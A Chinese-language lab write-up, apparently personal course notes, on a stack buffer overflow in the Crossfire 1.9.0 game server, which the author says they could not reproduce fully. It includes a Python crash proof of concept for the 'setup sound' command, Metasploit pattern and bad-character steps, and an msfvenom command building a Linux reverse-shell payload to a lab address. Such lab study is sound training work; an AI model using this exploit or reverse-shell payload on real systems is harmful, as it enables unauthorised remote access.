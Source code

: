 # 10-Linux Buffer Overflows

> 本次实验没有成功。
>
> Crossfire 1.9.0：https://www.exploit-db.com/apps/43240af83a4414d2dcc19fff3af31a63-crossfire-1.9.0.tar.gz
>
> EDB：https://github.com/eteran/edb-debugger

在本模块中，我们将利用Crossfire介绍Linux缓冲区溢出，这是一个基于Linux的在线多人角色扮演游戏。

具体来说，当向setup sound命令传递超过4000字节的字符串时，Crossfire 1.9.0容易受到基于网络的缓冲区溢出的攻击。为了调试应用程序，我们将使用Evan Teran编写的Evans调试器(EDB)，它受OllyDbg的启发，为我们提供了一个熟悉的调试环境。

## 环境准备

> 这里需要注意一点，系统需要是32位的，安装虚拟机的时候也要注意一下，官网下载镜像的话一般是带i386字样的。

### 安装游戏

> 安装过程中如果遇到权限问题，建议用sudo运行或者切换到root用户

1、这个提供的是未编译的文件，需要自己编译一下，下载了之后先解压缩一下；

2、然后进入到文件夹中，运行 `./configure` ，之后会运行一小段时间，如果要关闭保护机制编译的话可以运行 `./configure CC="gcc -z execstack -fno-stack-protector -no-pie"` ；

3、运行 `make` ；

4、可以选择运行 `make check` 进行测试，一般不进行也没事；

5、运行 `make install` ；

6、可以选择运行 `make clean` 清理第二步产生的一些文件。

7、 `cd /usr/games/crossfire/bin/` 

8、 `./crossfire` 

之后就正常运行了

### 安装EDB

> 项目的github界面上已经提供了很详细的安装方法，这里把链接放在这里
>
> - https://github.com/eteran/edb-debugger/wiki/Compiling-(Fedora)
> - https://github.com/eteran/edb-debugger/wiki/Compiling-(Ubuntu)
> - https://github.com/eteran/edb-debugger/wiki/Compiling-(Debian)

## 复现崩溃

### EDB附加进程

运行了crossfire之后，会显示下面这个情况：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605524034289-afdecd26-4bf1-4d12-9764-aa797bc3bbab.png)

运行了edb去附加，

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605524103731-e2c159e0-0a4b-4ec5-92a9-38fe3ca1b6ec.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605524128159-b3a19661-d24d-40ae-8290-8768034f7a38.png)

附加之后会使进程进入暂停状态，记得点播放按钮继续运行：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605581533082-0885e154-49d8-4234-8044-5d06468674f2.png)

### 准备PoC

这里用的是原文中的用python写的PoC，自己根据自己实际的靶机更新一下IP：

```
#! /usr/bin/python
import socket
host ="10.211.55.14"
crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
print("[*]Sending evil buffer...")
s.connect((host,13327))
print(s.recv(1024))
s.send(buffer)
s.close()
print("[*]Payload Sent !")
```

运行之后edb上就会显示一条异常：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605581722139-f1d829a2-fc17-43a0-a005-e70340c0277b.png)

可以看到这里的结果是有问题的，按理说应该是显示一串41的地址，但是实际上是没有的，研究了半天也没有研究出来。



## 控制EIP

### 生成唯一的缓冲字符串

```
msf-pattern_create -l 4379
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605526868132-8ee66c12-f1a1-4fc4-9d1f-a7c145c8d93c.png)

然后修改脚本，之后再重启crossfire，重新附加进程，重新运行脚本：

> 问题1：SyntaxError: Non-ASCII character '\xe2' in file ./control-eip.py on line 5, but no encoding declared;
>
> 解决方法：在文件开头添加 # coding:utf-8
>
> 问题2：SyntaxError: EOL while scanning string literal
>
> 解决办法：将字符串的双引号编程三引号

### 定位shellcode空间

如果改变字符长度导致不同的崩溃，那样我们就不可以随便增加长度了，然后文中给出的情况是EAX指向缓冲数据的栈顶，ESP指向的位置离缓冲数据底部还有几个字节空间，然后原文中给出的方法是，通过ESP指向的位置进行简单的操作，让EAX的值加几个字节跳过开头的"setup sound"字样，然后再跳转到EAX指向的区域执行。这样就有一大片空间可以被使用。

`msf-nasm_shell` 可以根据输入的汇编指令翻译成机器码。

### 检测坏字符

方法和上一节的WIndows缓冲区溢出一样，\x00肯定是不行的，然后从\x01~\xff测一下。

在多次运行概念验证并一次消除一个坏字符之后，原文中为Crossfire应用程序列出了一个最终的坏字符列表，它们看起来仅为\x00和\x20。

### 找一个返回地址

EDB自带Opcode Search插件，选择模块，右侧选择要利用的寄存器等，然后Find，最后选择给出的结果地址，下面只是查找示范。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605591419091-74e4e85a-5d60-4e4d-9b81-c48899e22071.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605591466977-a7dce057-cfcf-4ed4-bb2b-298d50260021.png)

在插件中的Breakpoint Manager，可以根据地址设置断点：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605591608405-f16b29e3-1474-4fe7-b844-327692065e54.png)

## 获取shell

### 生成shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.211.55.4 LPORT=443 -b "\x00\x20" -f py -v shellcode
```

### 接收反向shell

之后就是在攻击机上用nc监听443端口，然后运行添加过shellcode的脚本，记得将客户机的EDB关掉，只开启crossfire，不要运行在调试状态下，EDB会对反向shell中的某些操作报异常。当然是原文说的，因为我没有成功复现。